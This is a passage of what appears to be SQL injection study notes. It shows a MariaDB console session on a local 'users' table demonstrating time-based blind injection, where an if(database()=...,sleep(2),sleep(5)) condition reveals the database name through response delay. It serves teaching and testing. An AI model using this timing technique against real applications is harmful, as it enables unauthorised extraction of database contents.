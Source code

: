 ![image-20211014094321910](images/image-20211014094321910.png)



#### Time - Time/Sleep Based

  ```
  MariaDB [dark]> use y;
  Database changed
  MariaDB [y]> show tables;
  +-------------+
  | Tables_in_y |
  +-------------+
  | users       |
  +-------------+
  1 row in set (0.001 sec)
  
  MariaDB [y]> select * from users;
  +----------+
  | name     |
  +----------+
  | sherwin  |
  | analette |
  | reine    |
  +----------+
  3 rows in set (0.000 sec)
  
  MariaDB [y]> select * from users where name="sherwin" and if(database()="y",sleep(2),sleep(5));
  Empty set (2.009 sec)
  
  MariaDB [y]> select * from users where name="sherwin" and if(database()="z",sleep(2),sleep(5));
  Empty set (5.010 sec)
  ```
